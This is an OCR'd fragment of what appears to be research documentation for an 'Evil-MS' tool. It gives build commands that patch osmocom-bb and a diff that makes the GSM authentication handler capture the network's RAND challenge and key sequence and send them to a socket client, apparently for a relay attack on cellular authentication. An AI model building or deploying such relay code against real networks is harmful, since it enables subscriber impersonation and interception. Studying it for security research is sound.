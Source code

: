 ``` c
printf("=== Client Sent ===\n");
printf("%s\n", buffer);
memcpy(text,buffer,13);
close(client_fd);

  }
  return text;
}
```

## Evil-MS :

``` bash
git clone https://github.com/osmocom/osmocom-bb
git checkout fc20a37cb375dac11f45b78a446237c70f00841c
wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
patch -p1 < thesis.patch
```

``` patch
diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
--- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:39:46.222274989 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c 2022-08-30 15:35:55.472598046 +0200
@@ -20,6 +20,7 @@
  */
 
 #include <stdint.h>
+#include <string.h>
 #include <errno.h>
 #include <stdio.h>
 #include <string.h>
@@ -41,7 +42,7 @@
 #include <osmocom/bb/mobile/app_mobile.h>
 #include <osmocom/bb/mobile/vty.h>
 #include <osmocom/bb/mobile/dos.h>
-
+#include "client.h"
 extern void *l23_ctx;
 
 void mm_conn_free(struct gsm48_mm_conn *conn);
@@ -1662,6 +1663,15 @@
 */
if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
no_sim = 1;
+   char test2[]="1";
+   sprintf(test2, "%d", ar->key_seq);
+   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+   strcat(test3,test2);
+   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+   strcpy(test,osmo_hexdump(ar->rand,16));
+   strcat(test,test3);
+   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
+   client(test);
gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);
 
/* wait for auth response event from SIM */
diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
--- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
@@ -30,6 +30,11 @@
 #include <osmocom/bb/common/osmocom_data.h>
```